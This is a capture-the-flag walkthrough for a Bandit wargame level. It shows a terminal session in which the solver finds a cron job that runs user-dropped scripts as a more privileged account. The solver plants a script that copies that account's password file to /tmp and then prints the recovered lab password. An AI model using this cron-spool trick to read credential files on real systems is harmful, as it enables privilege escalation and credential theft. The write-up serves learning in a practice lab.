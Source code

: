 # Level 23

## Explanation

this level requires us to create a shell-script.

## Solution
<pre>
bandit23@bandit:~$ cat  /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
bandit23@bandit:~$ cd /tmp
bandit23@bandit:/tmp$ mkdir lvl23
bandit23@bandit:/tmp$ cd lvl23
bandit23@bandit:/tmp/lvl23$ nano script.sh
bandit23@bandit:/tmp/lvl23$ cat script.sh
*#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/mypass
bandit23@bandit:/tmp/lvl23$ chmod +x script.sh
bandit23@bandit:/tmp/lvl23$ cd ..
bandit23@bandit:/tmp$ touch mypass
bandit23@bandit:/tmp$ cd lvl23
bandit23@bandit:/tmp/lvl23$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/lvl23$ cd ..
bandit23@bandit:/tmp$ cat mypass
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
</pre>


<pre>
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/mypass
</pre>
this script Reads bandit24's password and writes it to a file that i have asses to
